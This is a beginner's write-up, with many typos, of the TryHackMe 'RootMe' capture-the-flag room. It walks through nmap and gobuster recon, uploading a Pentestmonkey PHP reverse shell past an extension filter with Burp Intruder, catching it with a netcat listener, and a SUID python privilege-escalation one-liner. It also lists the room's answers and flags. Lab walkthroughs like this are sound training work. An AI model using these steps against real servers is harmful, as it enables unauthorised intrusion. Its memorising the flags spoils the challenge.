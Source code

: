 # ♦ Day 10
</br>
</br>

## ◙ ***TRYHACKME ROOM***
 </br>
 
# ♦ [RootMe](https://tryhackme.com/r/room/rrootme) : 
   ⇨ A ctf for beginners, can you root me? 
   </br>
   </br>
### ◙ Step-By-Step Guide 



### • 1. Start yor machine and set up your Vpn and stuff as shown in previous Repo's

### • 2. As the Task 2 is asking for how many ports are iopen so we are exactly gonna scan the ports and this process of gathering informations bya scanning and stuff is is also known as ***RECONNAISSANCE*** as like a professional name for doint scanning and stuff. Anyway we will do scanning using nmap and cammaod for taht is :
    nmap -sV >IP add<
</br>
⇨ as we can see that the there are 2 services are alive </br>
     Service --- Version </br>
  1.  ssh    - OpenSSH               (Secure Shell) </br>
  2.  http   - Apache httpd 2.4.29   (Hypertext Transfer Protocol).</br>


### • 3. The next task is to find hidden directory as we already know that for finding hidden directories we use ***gobuster***.
    gobuster dir -u >IP add< -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

⇨ As we can see that there are 5 hidden directories in total whaich are as
1. /css -  just a basic css page.
2. /js  -  is a java script page.
3. /uplaods  -  a page where all the uplaoded file are being stored.
4. /panel  -  an interface based page where we can uplaod files.
5. /server  -  a permission denied page.

### • 4. Now for getting into the server and collecting required data (i.e user.txt in task 3) we will upload a reverse shell (which will bring back a connection back from server back to our device)
the suggested reverse shel for this experiment is a shell by ***Pentestmonkey*** by using command -

    wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
⇨ After downlaoding the file we have to extract it and the open it by nano or mousepad or vscode whatever we just have to change it's ip and port no.</br>
⇨ For ip[ we have to provide tun0's ip and port can be any port which is not in use or we won't use.
### • 5. For uploading this file we will use a new tool known as ***Burpsuite*** thi sis a very good for pentresting and stuff on webpages. So now we have to set our burpsuite by doing folloing steps.
  • 1. Firstly we have to install an extension on any browser we are gonna use it's name is "[FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/)"
  
  • 2. Now we have to set our proxy to work for tht we have to go to our ***Burpsuite > Proxy > Setting > Then we have to set our port no > Then we will set our FoxyProxy's port no and number***
  
  • 3. Ok now whhen its it done we can open ***Intruder*** and now we can interfere with the files which are goihng to the server

  ### • 6. Now we have to bruteforce our php file by different php extensions given [Here](https://book.hacktricks.xyz/pentesting-web/file-upload)

   By doing this the intrtuder will try all the given php extensions and we can sucessfully upload our php file.

### • 7. Now for getting a connection back we simply have to open netcat listner in a terminal and then run tht uploaded php file
   for using netcat we have to give the given command 
        
    nc -lvnp >Port no. tht was given in shell<

### • 8. Now to find our desired file we have to rrun a find command like

    find / -type f -name user.txt 2> /dev/null
 or 
 
    find / -type f -name user.txt


    
   now we just have to cat the result 

     cat /var/www/user.txt

### • 9. Privilege Esclation

   To gain root acess we have to run a privilege esclation command to find th ecode we gtg at GFTOBins [Website](https://gtfobins.github.io/), and run the given command
         
        python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Now we are root user to confirm tht ewe have to use ***whoami*** command 
 now to find the root.txt file we simply have to use

    find / -type f -name root.txt 
    cat /root/root.txt


# ♦ ANSWERS :

## ◙ TASK 2 :

⍰. Scan the machine, how many ports are open?

   ⇨ 2

⍰. What version of Apache is running?

   ⇨ 2.4.29

⍰. What service is running on port 22?

   ⇨ ssh

⍰. What is the hidden directory?

   ⇨/panel/

## ◙ TASK 3 :

⍰. user.txt

   ⇨ THM{y0u_g0t_a_sh3ll}

## ◙ TASK 4 :

⍰. Search for files with SUID permission, which file is weird?

   ⇨ /usr/bin/python

⍰. root.txt

   ⇨ THM{pr1v1l3g3_3sc4l4t10n}
